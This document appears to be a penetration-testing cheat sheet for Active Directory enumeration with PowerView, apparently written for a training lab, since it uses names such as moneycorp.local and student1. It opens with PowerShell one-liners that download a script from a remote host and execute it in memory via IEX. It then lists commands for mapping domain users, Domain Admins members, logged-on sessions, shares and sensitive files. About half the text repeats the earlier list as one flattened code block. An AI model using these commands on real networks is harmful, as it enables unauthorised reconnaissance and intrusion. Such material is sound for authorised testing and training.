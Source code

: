 # AD Enumeration

{% code overflow="wrap" %}
```powershell
#Local
(new-object system.net.webclient).downloadstring('http://192.168.1.1/powerview.ps1') | IEX
#Remotly
(new-object system.net.webclient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1') | IEX
```
{% endcode %}

## PowerView Enumeration

### Get current domain

```
Get-NetDomain
```

### Get object of another domain

```
Get-NetDomain -Domain moneycorp.local
```

### Get domain SID for the current domain

```
Get-DomainSID
```

### Get domain policy for the current domain

```
Get-DomainPolicy
(Get-DomainPolicy)." system access"
```

### Get domain policy for another domain

```
(Get-DomainPolicy -domain moneycorp.local)."system access"
(Get-DomainPolicy -domain moneycorp.local)."kerberos policy"
(Get-DomainPolicy -domain moneycorp.local)."Privilege Rights"
# OR
(Get-DomainPolicy)."KerberosPolicy" #Kerberos tickets info(MaxServiceAge)
(Get-DomainPolicy)."SystemAccess" #Password policy
(Get-DomainPolicy).PrivilegeRights #Check your privileges
```

### Get domain controllers for the current domain

```
Get-NetDomainController
```

### Get domain controllers for another domain

```
Get-NetDomainController -Domain moneycorp.local
```

### Get a list of users in the current domain

```
Get-NetUser
Get-NetUser -Username student1
```

### Get list of all properties for users in the current domain

```
Get-UserProperty
Get-UserProperty -Properties pwdlastset,logoncount,badpwdcount
Get-UserProperty -Properties logoncount
Get-UserProperty -Properties badpwdcount
```

### Search for a particular string in a user's attributes

```
Find-UserField -SearchField Description -SearchTerm "built"
```

### Get a list of computers in the current domain

```
Get-NetComputer
Get-NetComputer -OperatingSystem "*Server 2016*"
Get-NetComputer -Ping
Get-NetComputer -FullData
```

### Get all the groups in the current domain

```
Get-NetGroup
Get-NetGroup -Domain <targetdomain>
Get-NetGroup -FullData
Get-NetComputer -Domain
```

### Get all groups containing the word "admin" in group name

```
Get-NetGroup *admin*
Get-NetGroup -GroupName *admin*
Get-NetGroup *admin* -FullData
Get-NetGroup -GroupName *admin* -Doamin moneycorp.local
```

### Get all the members of the Domain Admins group

```
Get-NetGroupMember -GroupName "Domain Admins" -Recurse
#test the below command
#Get-NetGroupMember -GroupName "Domain Admins" -Properties * | select DistinguishedName,GroupCategory,GroupScope,Name,Members
```

### Get the group membership for a user

```
Get-NetGroup -UserName "student1"
```

### List all the local groups on a machine (needs administrator privs on non-dc machines)

```
Get-NetLocalGroup -ComputerName dcorp-dc.dollarcorp.moneycorp.local -ListGroups
```

### Get members of all the local groups on a machine (needs administrator privs on non-dc machines)

```
Get-NetLocalGroup -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Recurse
```

### Get actively logged users on a computer (needs local admin rights on the target)

```
Get-NetLoggedon -ComputerName dcorp-dc.dollarcorp.moneycorp.local 
```

### Get locally logged users on a computer (needs remote registry on the target - started by default on server OS)

```
Get-LoggedonLocal -ComputerName dcorp-dc.dollarcorp.moneycorp.local 
```

### Get the last logged user on a computer (needs administrative rights and remote registry on the target)

```
Get-LastLoggedon -ComputerName <servername>
```

### Find shares on hosts in the current domain.

```
Invoke-ShareFinder -Verbose
```

### Find sensitive files on computers in the domain

```
Invoke-FileFinder -Verbose
```

### Get all fileservers of the domain

```powershell
Get-NetFileServerPowerView Enumeration
Get current domain
Get-NetDomain
Get object of another domain
Get-NetDomain -Domain moneycorp.local
Get domain SID for the current domain
Get-DomainSID
Get domain policy for the current domain
Get-DomainPolicy
(Get-DomainPolicy)."system access"
Get domain policy for another domain
(Get-DomainPolicy -domain moneycorp.local)."system access"
(Get-DomainPolicy -domain moneycorp.local)."kerberos policy"
(Get-DomainPolicy -domain moneycorp.local)."Privilege Rights"
# OR
(Get-DomainPolicy)."KerberosPolicy" #Kerberos tickets info(MaxServiceAge)
(Get-DomainPolicy)."SystemAccess" #Password policy
(Get-DomainPolicy).PrivilegeRights #Check your privileges
Get domain controllers for the current domain
Get-NetDomainController
Get domain controllers for another domain
Get-NetDomainController -Domain moneycorp.local
Get a list of users in the current domain
Get-NetUser
Get-NetUser -Username student1
Get list of all properties for users in the current domain
Get-UserProperty
Get-UserProperty -Properties pwdlastset,logoncount,badpwdcount
Get-UserProperty -Properties logoncount
Get-UserProperty -Properties badpwdcount
Search for a particular string in a user's attributes
Find-UserField -SearchField Description -SearchTerm "built"
Get a list of computers in the current domain
Get-NetComputer
Get-NetComputer -OperatingSystem "*Server 2016*"
Get-NetComputer -Ping
Get-NetComputer -FullData
Get all the groups in the current domain
Get-NetGroup
Get-NetGroup -Domain <targetdomain>
Get-NetGroup -FullData
Get-NetComputer -Domain
Get all groups containing the word "admin" in group name
Get-NetGroup *admin*
Get-NetGroup -GroupName *admin*
Get-NetGroup *admin* -FullData
Get-NetGroup -GroupName *admin* -Doamin moneycorp.local
Get all the members of the Domain Admins group
Get-NetGroupMember -GroupName "Domain Admins" -Recurse
#test the below command
#Get-NetGroupMember -GroupName "Domain Admins" -Properties * | select DistinguishedName,GroupCategory,GroupScope,Name,Members
Get the group membership for a user
Get-NetGroup -UserName "student1"
List all the local groups on a machine (needs administrator privs on non-dc machines)
Get-NetLocalGroup -ComputerName dcorp-dc.dollarcorp.moneycorp.local -ListGroups
Get members of all the local groups on a machine (needs administrator privs on non-dc machines)
Get-NetLocalGroup -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Recurse
Get actively logged users on a computer (needs local admin rights on the target)
Get-NetLoggedon -ComputerName dcorp-dc.dollarcorp.moneycorp.local 
Get locally logged users on a computer (needs remote registry on the target - started by-default on server OS)
Get-LoggedonLocal -ComputerName dcorp-dc.dollarcorp.moneycorp.local 
Get the last logged user on a computer (needs administrative rights and remote registry on the target)
Get-LastLoggedon -ComputerName <servername>
Find shares on hosts in current domain.
Invoke-ShareFinder -Verbose
Find sensitive files on computers in the domain
Invoke-FileFinder -Verbose
Get all fileservers of the domain
Get-NetFileServer
```
